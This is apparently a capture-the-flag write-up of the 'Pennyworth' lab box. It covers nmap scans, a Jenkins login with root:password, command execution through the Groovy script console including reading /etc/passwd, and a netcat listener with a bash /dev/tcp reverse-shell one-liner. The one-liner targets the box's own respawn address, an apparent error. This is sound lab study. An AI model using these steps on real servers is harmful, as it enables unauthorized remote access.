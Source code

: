 # Pennyworth

> 10.129.59.175

## Nmap
```
nmap 10.129.59.175
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-14 21:37 EDT
Nmap scan report for 10.129.59.175
Host is up (0.049s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 0.85 seconds
```

```
nmap -sS -sV -sC -O -p 8080 10.129.59.175
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-14 21:39 EDT
Nmap scan report for 10.129.59.175
Host is up (0.049s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Jetty 9.4.39.v20210325
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.39.v20210325)
| http-robots.txt: 1 disallowed entry 
|_/
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.26 seconds
```

## Jetty
> Eclipse Jetty is a Java web server and Java Servlet container. While web servers are usually associated with serving documents to people, Jetty is now often used for machine to machine communications, usually within larger software frameworks.

## Jenkins
- Access the site: `http://10.129.59.175:8080`
- You get a login screen that says, "Welcome to Jenkins!" and asks for username and password.
- Found an nse script here: https://github.com/icarot/NSE_scripts/blob/master/jenkins-info.nse
  - Downloaded and just ran it...
```
nmap --script jenkins-info -p 8080 10.129.59.175
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-14 22:05 EDT
Nmap scan report for 10.129.59.175
Host is up (0.049s latency).

PORT     STATE SERVICE
8080/tcp open  http-proxy
| jenkins-info: 
|   Hudson Version: 1.395
|   Jenkins Version: 2.289.1
|   Jenkins Session ID: aa6c090a
|_  Server: Jetty(9.4.39.v20210325)

Nmap done: 1 IP address (1 host up) scanned in 0.44 seconds
```

Google search: "jenkins default credentials"
- Results: admin:password
- Didn't work. "admin" is a Windows login.
- **root:password** worked and I got in.

In order to get to the Groovy Script CLI page: 
> Jenkins features a [Groovy script console](https://www.jenkins.io/doc/book/managing/script-console/) which allows one to run arbitrary Groovy scripts within the Jenkins controller runtime or in the runtime on agents.
- The Script Console on the controller can be accessed from "Manage Jenkins" > "Script Console" (takes you to: `/cli`). Or by visiting the sub-URL `/script` on your Jenkins instance.
  - The former takes you to a list of "Available Commands," but I could not access the actual CLI.
  - Using the `/script` in the URL took me right to the CLI. 

----
> respawn: 10.129.212.139

I tried some arbitrary commands in the CLI: 
- `which bash` : gave me an error
- `ifconfig`   : gave me an error
- And so I Googled for help...

[How to Execute Commands in Groovy](https://groovy-lang.gitlab.io/101-scripts/basico/command_local-en.html)
- You need to use the `execute()` method.
- The following found [here](https://stackoverflow.com/questions/2701547/how-to-make-system-command-calls-in-java-groovy): 
  - The simplest way to invoke an external process in Groovy is to use the execute() command on a string. For example, to execute maven from a groovy script run this:
```
"cmd /c mvn".execute()
```
  - If you want to capture the output of the command and maybe print it out, you can do this:
```
print "cmd /c mvn".execute().text
```
  - The 'cmd /c' at the start invokes the Windows command shell. Since mvn.bat is a batch script you need this. For Unix you can invoke the system shell.



- Some stuff I tried:
```
"cat /etc/passwd ".execute().text   # that printed the /etc/passwd file
"ifconfig".execute().text           # that showed me network info
"which bash".execute().text         # result: /usr/bin/bash
"bash --version".execute().text     # result: version 5.0.17(1)-release
```

Therefore I can execute arbitrary system commands on the box as root. 

## Pwn
- The famous bash one-liner
### Set up a listener on my local/attack machine: 
```
nc -nvlp 1234     # TCP listener
nc -nvlup 1234    # UDP listener
```

### Executed the Bash One-Liner: 
```
/bin/bash -c 'bash -i &> /dev/tcp/10.129.212.139/1234 0>&1'
```

